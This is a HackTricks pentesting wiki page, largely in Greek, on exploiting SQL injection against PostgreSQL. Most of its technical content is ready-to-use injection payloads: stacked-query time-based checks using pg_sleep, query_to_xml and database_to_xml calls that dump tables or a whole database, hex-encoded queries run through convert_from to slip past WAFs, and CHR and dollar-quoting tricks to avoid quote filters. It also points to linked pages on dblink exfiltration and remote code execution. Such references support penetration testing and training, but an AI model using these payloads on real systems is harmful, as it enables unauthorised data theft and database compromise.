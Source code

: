 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Αυτή η σελίδα έχει σκοπό να εξηγήσει διάφορα κόλπα που θα μπορούσαν να σας βοηθήσουν να εκμεταλλευτείτε μια SQL injection που βρέθηκε σε μια βάση δεδομένων postgresql και να συμπληρώσετε τα κόλπα που μπορείτε να βρείτε στο** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

Το **PostgreSQL module `dblink`** προσφέρει δυνατότητες για σύνδεση σε άλλες PostgreSQL περιπτώσεις και εκτέλεση TCP συνδέσεων. Αυτές οι δυνατότητες, σε συνδυασμό με τη λειτουργία `COPY FROM`, επιτρέπουν ενέργειες όπως η κλιμάκωση προνομίων, η σάρωση θυρών και η σύλληψη απαντήσεων προκλήσεων NTLM. Για λεπτομερείς μεθόδους εκτέλεσης αυτών των επιθέσεων, ελέγξτε πώς να [εκτελέσετε αυτές τις επιθέσεις](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltration example using dblink and large objects**

Μπορείτε να [**διαβάσετε αυτό το παράδειγμα**](dblink-lo\_import-data-exfiltration.md) για να δείτε ένα παράδειγμα CTF του **πώς να φορτώσετε δεδομένα μέσα σε μεγάλα αντικείμενα και στη συνέχεια να εξάγετε το περιεχόμενο των μεγάλων αντικειμένων μέσα στο όνομα χρήστη** της συνάρτησης `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Ελέγξτε πώς να συμβιβάσετε τον host και να κλιμακώσετε προνόμια από το PostgreSQL στο:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Η χειραγώγηση συμβολοσειρών θα μπορούσε να σας βοηθήσει να **παρακάμψετε WAFs ή άλλους περιορισμούς**.\
[**Σε αυτή τη σελίδα** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**μπορείτε να βρείτε μερικές χρήσιμες συναρτήσεις συμβολοσειρών.**

### Stacked Queries

Θυμηθείτε ότι το postgresql υποστηρίζει στοίβες ερωτημάτων, αλλά πολλές εφαρμογές θα ρίξουν ένα σφάλμα αν επιστραφούν 2 απαντήσεις όταν αναμένονται μόνο 1. Αλλά, μπορείτε ακόμα να εκμεταλλευτείτε τις στοίβες ερωτημάτων μέσω Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query\_to\_xml**

Αυτή η συνάρτηση θα επιστρέψει όλα τα δεδομένα σε μορφή XML σε ένα μόνο αρχείο. Είναι ιδανική αν θέλετε να εξάγετε πολλά δεδομένα σε μία μόνο γραμμή:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Αυτή η συνάρτηση θα εξάγει ολόκληρη τη βάση δεδομένων σε μορφή XML σε μόλις 1 γραμμή (προσοχή αν η βάση δεδομένων είναι πολύ μεγάλη καθώς μπορεί να προκαλέσετε DoS ή ακόμα και στον δικό σας πελάτη):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Αν μπορείτε να εκτελέσετε **queries** περνώντας τα **μέσα σε μια συμβολοσειρά** (για παράδειγμα χρησιμοποιώντας τη **`query_to_xml`** συνάρτηση). **Μπορείτε να χρησιμοποιήσετε το convert\_from για να περάσετε τη συμβολοσειρά ως hex και να παρακάμψετε τα φίλτρα με αυτόν τον τρόπο:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Απαγορευμένα αποσπάσματα

Εάν δεν μπορείτε να χρησιμοποιήσετε αποσπάσματα για το payload σας, μπορείτε να το παρακάμψετε με το `CHR` για βασικές ρήτρες (_η σύνθεση χαρακτήρων λειτουργεί μόνο για βασικά ερωτήματα όπως SELECT, INSERT, DELETE, κ.λπ. Δεν λειτουργεί για όλες τις δηλώσεις SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ή με `$`. Αυτές οι ερωτήσεις επιστρέφουν τα ίδια αποτελέσματα:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραφή και ομιλία στα πολωνικά_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
